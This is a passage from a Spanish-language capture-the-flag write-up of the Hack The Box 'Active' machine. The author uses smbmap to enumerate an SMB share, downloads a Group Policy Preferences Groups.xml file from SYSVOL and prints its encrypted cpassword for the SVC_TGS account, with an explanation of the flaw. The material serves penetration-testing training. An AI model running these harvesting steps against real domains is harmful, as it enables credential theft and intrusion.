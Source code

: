 Dentro del directorio **Policies**, hay dos directorios, si revisamos el primero, veremos que hay varios directorios, pero dos de ellos son de interés, el **USER** y el **MACHINE**. Entraremos directamente en **MACHINE** para seguir enumerando y de ahí, nos iremos a **Preferences** y por último a **Groups**:
```bash
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/groups
[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Replication                                             READ ONLY
        .\Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\groups\*
        dr--r--r--                0 Sat Jul 21 05:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 05:37:44 2018    ..
        fr--r--r--              533 Sat Jul 21 05:38:11 2018    Groups.xml
```

Hay un archivo **XML**, vamos a descargarlo y a renombrarlo:
```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/groups/Groups.xml
[+] Starting download: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\groups\Groups.xml (533 bytes)
[+] File output to: **/**/**/content/10.10.10.100-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_groups_Groups.xml

mv 10.10.10.100-Replication_active.htb_Policies_\{31B2F340-016D-11D2-945F-00C04FB984F9\}_MACHINE_Preferences_groups_Groups.xml Groups.xml
```

Pero ¿de qué se trata este archivo? Investiguemos por su nombre como tal y veamos si aparece algo.

Aquí dejo un link muy útil de lo que encontre:
* <a href="https://adsecurity.org/?p=2288" target="_blank">Finding Passwords in SYSVOL & Exploiting Group Policy Preferences</a>

En resumen de lo que menciona el blog, lo que hicimos fue minar **SYSVOL** para encontrar un archivo que se crea en el **Group Policy Preferences (GPP)**, siendo que este contiene las credenciales de usuarios.

| **Recurso SYSVOL** |
|:-----------:|
| *SYSVOL es el recurso compartido de todo el dominio en Active Directory al que todos los usuarios autenticados tienen acceso de lectura. SYSVOL contiene secuencias de comandos de inicio de sesión, datos de políticas de grupo y otros datos de todo el dominio que deben estar disponibles en cualquier lugar donde haya un controlador de dominio (ya que SYSVOL se sincroniza automáticamente y se comparte entre todos los controladores de dominio).* |
 
<br>

Analicemos el contenido de este archivo:
```xml
xmllint --format Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```
Podemos ver un hash de una contraseña y un usuario llamado **SVC_TGS**. Intentemos descifrar ese hash.
